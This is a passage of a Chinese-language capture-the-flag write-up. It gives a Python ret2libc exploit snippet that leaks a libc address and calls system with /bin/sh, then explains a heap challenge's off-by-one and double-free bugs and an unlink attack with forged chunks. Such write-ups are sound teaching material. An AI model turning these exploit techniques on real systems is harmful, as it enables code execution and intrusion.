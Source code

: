 和 `level3` 几乎相同，依然是 ret2libc。

```python
payload = flat('a'*(0x88+4),elf.plt['write'],elf.sym['main'],1,elf.got['read'],4)
sl(payload)
read =uu64(r(4))
leak('read',read)
system,binsh = ret2libc(read,'read')
payload = flat('a'*(0x88+4),system,'a'*4,binsh)
sl(payload)
```

### level6 & level6_x64 & guestbook2

三题比较类似，以 64 位为例。[参考文章](https://www.anquanke.com/post/id/162882)。

首先本题存在一个索引表，结构大致是这样：

```
| ...        |
 ------------
| max_size   |
 ------------
| exist_num  |
 ------------
| allocated0 |
 ------------
| size_user0 |
 ------------
| ptr_heap0  |
 ------------
| allocated1 |
 ------------
| size_user1 |
 ------------
| ptr_heap1  |
 ------------
| ...        |
```

- `max_size`：最大记录数
- `exist_num`：当前记录数
- `chunk0`:
  - `allocated`：是否是被分配的
  - `size_user`：用户数据长度
  - `ptr_heap`：返回给用户的指针

题目主要漏洞有 2 处，首先是新建记录时存在 off-by-one，可以多读入一个字节，从而泄露后面相邻区域的内容。第二处漏洞就是常见的 `free` 后没有置空指针，造成了 `double free`。

首先泄露 libc 地址和堆地址。创建 4 个小 chunk，删掉不相邻的 2 个（防止合并）。由于题目限制最小分配 0x80B，必定会先进入 unsorted bin；然后拿回来并写满 `fd` 的位置，从而打印出 `bk`。`chunk0` 的 `bk` 指向 `chunk2`，相隔一个索引表（0x1820B）和两个正常 chunk(2\*0x90B)，因此可以算出堆地址。`chunk2` 的 `bk` 指向 `main_arena+88`，从而泄露 libc。

随后伪造堆块，`heap+0x30` 是 `chunk0` 的 `ptr_heap` 的位置，`-0x18` 和 `-0x10` 分别指向其 `fd` 和 `bk`。随后继续伪造 `chunk1` 方便后续触发 `unlink(chunk0)`，再伪造 `chunk2` 防止与 top chunk 合并。删除 `chunk1`，即可导致 `unlink(chunk0)`。
